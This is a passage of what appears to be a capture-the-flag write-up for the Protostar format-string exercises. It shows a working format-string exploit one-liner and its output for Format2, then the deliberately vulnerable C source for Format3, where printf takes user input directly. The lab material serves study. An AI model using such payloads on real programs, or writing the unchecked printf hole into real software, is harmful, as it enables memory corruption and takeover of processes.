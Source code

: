 #### 2.3 Final PoC

```
$ echo -ne $(python -c 'print "\x30\xa0\x04\x08%60x%4$n"') | ./format_2
0�                                                         200you have modified the target :)
```


## Protostar-Format3 Solution

### 1. Introduction

This is a poc solution for the "Format3" challenge of Protostar. It's short and hopefully it's easy for everyone who wants to have a look.

Source:
[https://web.archive.org/web/20170417130413/https://exploit-exercises.com/protostar/format3/](https://web.archive.org/web/20170417130413/https://exploit-exercises.com/protostar/format3/) 
 
**Hints:**
* This level advances from format2 and shows how to write more than 1 or 2 bytes of memory to the process.
* This also teaches you to carefully control what data is being written to the process memory.

#### 1.1 Source code
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void printbuffer(char *string)
{
  printf(string);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printbuffer(buffer);
  
  if(target == 0x01025544) {
      printf("you have modified the target :)\n");
  } else {
      printf("target is %08x :(\n", target);
  }
}

int main(int argc, char **argv)
{
  vuln();
}
```
